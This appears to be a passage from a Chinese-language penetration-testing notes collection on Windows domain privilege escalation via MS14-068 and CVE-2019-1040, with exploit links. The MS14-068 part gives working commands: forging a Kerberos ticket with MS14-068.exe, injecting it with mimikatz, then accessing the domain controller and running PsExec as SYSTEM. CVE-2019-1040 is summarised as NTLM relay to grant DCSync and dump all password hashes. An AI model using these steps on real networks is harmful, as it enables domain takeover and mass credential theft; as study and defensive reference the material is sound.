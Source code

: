 - 文章
    - [MS14-068域权限提升漏洞总结](http://www.polaris-lab.com/index.php/archives/205/)

- POC | Payload | exp
    - [windows-kernel-exploits/MS14-068/](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)
    - [abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

        登录普通域用户 whoami/user 获取 sid

        退出域用户，登录本地用户
        ```bash
        MS14-068.exe -u test@test.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.1.1 -p Admin123

        # -u 域账号+@+域名称
        # -s 为 ts1 的 SID 值，可以通过 whoami/all 来获取用户的 SID 值
        # -d 为当前域的域控
        # -p 为当前用户的密码，即 ts1 的密码
        ```
        接下来将导出生成一张 kerberos 票据，配合 mimikatz 的 ptt 功能，将票据导入到内存中

        使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器
        ```bash
        kerberos::purge                 # 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
        kerberos::list                  # 查看当前机器凭证
        kerberos::ptc [ccachefile]      # 将票据注入到内存中

        可以使用 net use \\域控名\C$ 尝试访问域控

        也能执行 psexec
        PsExec64.exe -accepteula \\域控名 -s cmd /c "whoami /all"
        ```

**CVE-2019-1040 Windows NTLM 篡改漏洞**

- 简介

    使用中继的 LDAP 身份验证，为攻击者帐户授予 DCSync 权限。攻击者帐户使用 DCSync 转储 AD 中的所有密码哈希值。

    也可以将目标服务器的基于资源的约束委派权限授予攻击者控制下的计算机帐户。攻击者作为受害者服务器上的任何用户进行身份验证。

- 文章
    - [结合CVE-2019-1040漏洞的两种域提权深度利用分析](https://www.freebuf.com/vuls/207399.html)
    - [Cve 2019 1040 Intranet Killer](https://syst1m.com/post/cve-2019-1040-intranet-killer/)

- POC | Payload | exp
    - [Ridter/CVE-2019-1040: CVE-2019-1040 with Exchange](https://github.com/Ridter/CVE-2019-1040)
    - [fox-it/cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)
    - [Ridter/CVE-2019-1040-dcpwn](https://github.com/Ridter/CVE-2019-1040-dcpwn)
    - [QAX-A-Team/dcpwn](https://github.com/QAX-A-Team/dcpwn)
